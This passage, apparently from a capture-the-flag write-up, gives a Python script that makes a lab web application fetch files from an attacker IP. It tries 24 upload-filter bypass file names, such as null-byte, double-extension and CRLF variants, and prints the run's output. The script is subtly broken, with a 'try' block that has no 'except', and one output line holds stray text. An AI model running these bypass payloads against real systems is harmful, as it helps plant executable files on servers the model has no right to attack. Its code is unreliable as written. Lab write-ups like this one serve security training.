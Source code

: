 ##### file_check_bypass.py
```python
import requests
import sys
import shutil
import os

url = sys.argv[1]
attacker_ip = 'IP_HERE'
count = 0
total_lines = sum(1 for line in open('ext_bypass.txt'))
headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type':'application/x-www-form-urlencoded'}

def try_extension(extension):
    extension = extension.strip()
    payload = f'url=http%3A%2F%2F{attacker_ip}%2F{extension}'
    try:
        response = requests.post(url, headers=headers, data=payload)
        status_code=response.status_code
        print(f"{count}/{total_lines} - {status_code} - {payload}")

with open("ext_bypass.txt") as file:
    for line in file:
        count +=1
        try_extension(line)
```

Starting the script:
```bash
$ python3 file_check_bypass.py http://10.10.66.215/cloud/
1/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Fcat.jpg
2/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile1.png.php
3/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile2.png.Php5
4/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile3.php%20
5/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile4.php%0a
6/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile5.php%00
7/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile6.php%00.jpg
8/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile7.php#.jpg
9/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile8.php%0d%0a
10/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile9.php/
11/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile10.php.\
12/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile11.
13/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile12.php....
14/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile13.pHp5....
15/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile14.png.php
16/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile15.png.pHp5
17/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile16.php%00.png
18/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile17.php\x00.png
19/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile18.php%0a.png
20/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile19.php%0d%0a.png
21/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile20.phpJunk123png
22/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile21.png.jpg.php
23/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile22.php%00.png%00.jpg
24/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Fex: file23.php.png
```
